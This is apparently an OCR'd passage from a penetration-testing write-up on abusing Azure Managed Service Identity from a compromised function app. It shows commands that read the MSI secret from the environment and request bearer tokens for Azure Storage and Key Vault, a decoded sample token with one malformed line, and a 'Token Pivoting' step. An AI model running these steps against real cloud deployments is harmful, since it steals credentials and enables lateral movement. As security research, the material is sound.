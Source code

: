 ```

Querying the MSI service for bearer tokens:

```
env | grep 'MSI'

MSI_ENDPOINT=http://172.16.1.3:8081/msi/token
MSI_SECRET=ABC123
```

Research on MSI architecture: https://techcommunity.microsoft.com/t5/Azure-Developer-Community-Blog/Understanding-Azure-MSI-Managed-Service-Identity-tokens-caching/ba-p/337406

```bash
curl -s -H "Secret: $MSI_SECRET" "$MSI_ENDPOINT?api-version=2017-09-01&resource=https://storage.azure.com/"
echo
```

Response is a JWT that can be used to access the storage service for 8 hours. Example of the decoded token:

```json
{
    "aud": "https://storage.azure.com/",
    "iss": "https://sts.windows.net/ad0e23cd-ec45-4fba-b7ea-cd29f4795e78/",
    "iat": 1577132754,
    "nbf": 1577132754,
    "exp": 1577161854,
    "aio": "42VgYAjYV+C7ff6MdeqBGx5Y7V2zFQA=",
    "appid": "abc-123",
    "appidacr": "2",
    "idp": "https://sts.windows.net/ad0e23cd-ec45-4fba-b7ea-cd29f4795e78/",
    "oid": "abc-123",
    "sub": "abc-123",
    "tid": "abc-123
    "uti": "9bg56odteUKeWDv7MoeOAA",
    "ver": "1.0",
    "xms_mirid": "/subscriptions/abc-123/resourcegroups/pumaprey-cougar/providers/Microsoft.Web/sites/pumapreycougar"
}
```

## Token Pivoting

### Azure Key Vault

[API Documentation](https://docs.microsoft.com/en-us/rest/api/keyvault/)

From the compromised function, request a Bearer token for the vault service:

```bash
curl -s -H "Secret: $MSI_SECRET" "$MSI_ENDPOINT?api-version=2017-09-01&resource=https://vault.azure.net"
echo
```
